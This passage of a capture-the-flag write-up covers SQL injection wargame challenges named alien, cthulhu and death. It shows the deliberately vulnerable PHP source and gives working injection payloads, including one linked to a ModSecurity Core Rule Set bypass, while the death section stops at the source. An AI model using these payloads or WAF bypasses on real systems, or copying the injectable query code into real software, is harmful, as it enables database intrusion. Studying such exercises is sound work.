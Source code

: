 ```php
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

payload : 1%20union%20select%20concat%28char%2898%2D%28now%28%29%252%29%2D%28sleep%283%29%29%29%2C0x646d696e%29%23%27%20union%20select%20concat%28char%2898%2D%21%28now%28%29%252%29%2D%28sleep%281%29%29%29%2C0x646d696e%29%23

`1 union select concat(char(98-(now()%2)-(sleep(3))),0x646d696e)#' union select concat(char(98-!(now()%2)-(sleep(1))),0x646d696e)#`

## CTHULHU([ModSecurity Core Rule Set v3.1.0](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181))

```php
<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

**payload:** %2D1%27%3C%40%3D1%20OR%20%7Ba%201%7D%3D1%23

## Death([ModSecurity Core Rule Set v3.1.0](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181))

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_death where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("death");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
